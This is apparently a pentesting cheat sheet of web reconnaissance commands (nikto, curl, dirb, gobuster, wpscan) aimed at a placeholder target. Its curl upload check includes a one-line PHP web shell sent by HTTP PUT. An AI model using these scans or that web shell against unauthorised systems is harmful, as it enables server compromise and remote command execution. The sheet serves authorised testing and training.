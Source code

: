 # Website Scanning/Fuzzing
		
Nikto

    nikto -h http://INSERTIPADDRESS
		
	With proxy:
    nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444
	
Curl
    
    Get headers:
    curl -i INSERTIPADDRESS
	
    Get everything:
    curl -i -L INSERTIPADDRESS
	
    Check for title and all links:
    curl INSERTIPADDRESS -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
	
    Look at page with just text:
    curl INSERTIPADDRESS -s -L | html2text -width '99' | uniq
	
    Check if it is possible to upload:
    curl -v -X OPTIONS http://INSERTIPADDRESS/
    curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php
	
    
	
Dirb

    dirb http://INSERTIPADDRESS

    Not recursive and with output file:
    dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt
	
	Test with specified wordlist
	dirb http://INSERTIPADDRESS /usr/share/wordlists/dirb/common.txt

    Test for specific extensions
    dirb http://INSERTIPADDRESS -X .php,.txt

    Through proxy
    dirb http://INSERTIPADDRESS -p PROXYIP:PROXYPORT -P proxyusername:proxypassword
	
	If new subsites/directories are found rerun nikto/dirb as necessary

Gobuster

	gobuster -u http://IPADDRESS/ -w words.txt
    
    Test for specific extensions
    gobuster -u http://IPADDRESS/ -w words.txt -x php,txt
	
Wordpress scanner
	
    wpscan -u http://INSERTIPADDRESS
	
	Enumerate users:
	wpscan -u http://INSERTIPADDRESS -e u
